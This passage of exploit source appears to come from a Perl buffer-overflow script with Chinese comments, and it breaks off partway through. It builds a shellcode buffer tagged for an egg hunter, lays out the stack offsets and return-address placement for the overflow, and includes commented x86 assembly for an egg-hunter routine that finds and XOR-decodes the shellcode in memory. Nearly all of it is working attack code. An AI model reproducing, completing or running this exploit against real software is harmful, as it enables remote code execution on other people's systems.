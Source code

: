# 这里也修改了, 多加了两个"K", 因为$myfindsc中
# 用了"repne scasd[edi]"指令来查找Shellcode, 多
# 加两个"K"使其四字节对齐, 否则会找不到（通用性？）
$v = "KKKSEXY" . $sc . "V" x (500-length($sc)-5);

# 溢出时堆栈的基本状况
#     |0          |104     | 108   |112       |164     |168    |172     |176
#$c = "A" x 104 . $patch . $patch. "A" x 52 . $patch . "AAAA". $retaddr .$patch."Aa4Aa5Aa6Aa7Aa8Aa9Ab";

#
#void myfindsc()
#{
#    __asm
#    {
#        int 3;
#start:
#        MOV EDX,ESP;
#        FCMOVNBE ST,ST(2);
#        _emit 0xd9;
#        _emit 0x72;
#        _emit 0xf4; FSTENV [edx-0Ch]
#        POP EBP;
#        PUSH EBP;
#        POP EBX;
#        PUSH 76h;
#        POP EAX;
#xorsc:
#        XOR BYTE PTR DS:[EBX+28h],AL; patch "decode" 的0xff
#findsc:
#        MOV EAX,66666666h;
